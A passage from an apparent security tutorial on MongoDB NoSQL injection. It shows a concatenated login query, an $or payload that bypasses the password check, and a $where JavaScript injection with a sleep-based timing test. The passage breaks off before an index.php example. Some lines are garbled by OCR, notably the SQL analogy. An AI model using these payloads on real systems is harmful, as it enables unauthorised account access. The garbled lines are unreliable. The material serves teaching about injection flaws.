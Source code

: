 ````sql
```
## Joint query injection
- In popular database storage such as MongoDB, JSON query structure makes joint query injection attacks more complicated, but when the MongoDB query statement on the backend uses string splicing, Nosql already has the problem of joint query injection

````sql
string query = "{username:'" + $username + "', password:'" + $password + "'}"
```
- When entering the correct username and password to log in, the query statement is

````sql
{'usernmae':'admin', 'password':'admin123'}
```
- But since the input data is not filtered and verified well, the attacker can construct the following Payload to attack

````sql
username=admin', $or: [ {}, {'a': 'a&password='}], $comment: '123456
```
- After the backend is spliced, the statement is as follows. At this time, the query can be successful as long as the username is correct. This method is similar to SQL injection
- In this way, the original normal query statement will be converted to ignore the password. Log in to the user account directly without a password, because the conditions in () are always true

````sql
{'username':'admin', $or: [ {}, {'a': 'a', password:''}], $comment: '123456'}

select * from logins where username = 'admin' and (password true<or ('a'='a' and password = '')))
```
## JavaScript Injection

- MongoDB Server supports JavaScript. It can use JavaScript to perform some complex transactions and queries, and also allows JavaScript code to be executed during queries. However, if a user who passes unclear input into these queries, arbitrary JavaScript code may be injected, resulting in illegal data acquisition or tampering.

### $where operator
- Let's first understand the `$where` operator. In MongoDB, the `$where` operator can be used to execute JavaScript code, using strings of JavaScript expressions or JavaScript functions as part of the query statement. Before MongoDB 2.4, the `$where` operator can even access global functions and properties in Mongo Shell through the `$where` operator, such as db, which means that all the information of the database can be obtained in custom functions.

````sql
db.users.find({ $wh
ere: "function(){return(this.username == 'admin')}" })

{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "admin", "password" : "admin123" }
```
- After using the `$where` keyword, JavaScript will execute and return "admin", and then query the data with username admin
- Some vulnerable PHP applications may directly insert unprocessed user input when building MongoDB queries, such as getting query conditions from `$username` in variables:
````sql
db.users.find({ $where: "function(){return(this.username == $username)}" })
```
- Then the attacker can inject malicious strings, such as `'d1no'; sleep(5000)`, and the query statement executed by MongoDB is
````sql
db.users.find({ $where: "function(){return(this.username == 'd1no'; sleep(5000))}" })
```
- If the server has a 5-second delay at this time, the injection is successful

- index.php content is as follows

````